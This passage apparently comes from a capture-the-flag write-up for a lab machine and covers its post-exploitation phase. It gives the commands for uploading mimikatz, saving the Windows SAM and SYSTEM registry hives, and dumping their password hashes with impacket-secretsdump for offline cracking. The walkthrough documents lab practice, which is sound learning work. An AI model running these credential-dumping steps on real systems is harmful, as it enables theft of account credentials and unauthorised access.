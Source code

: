 ### Phase 4: Lateral Movement

Now we're in administrators group but we have to restart a PSWA session for changes to take effect. So now we will use mimikatz to dump SAM hashes as follows:

```bash
upload mimikatz.exe
shell
.\mimikatz.exe
```

Both versions of mimikatz are not compatible with the version of Windows so we will do it manually using impacket it's a little bit longer:

```PS
reg save HKLM\sam sam.bak
reg save HKLM\system system.bak
exit
download sam.bak
download system.bak
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

![msf_result](images/Acute13.png)

Now crack it offline with jhon or hashcat:

![john_result](images/Acute14.png)
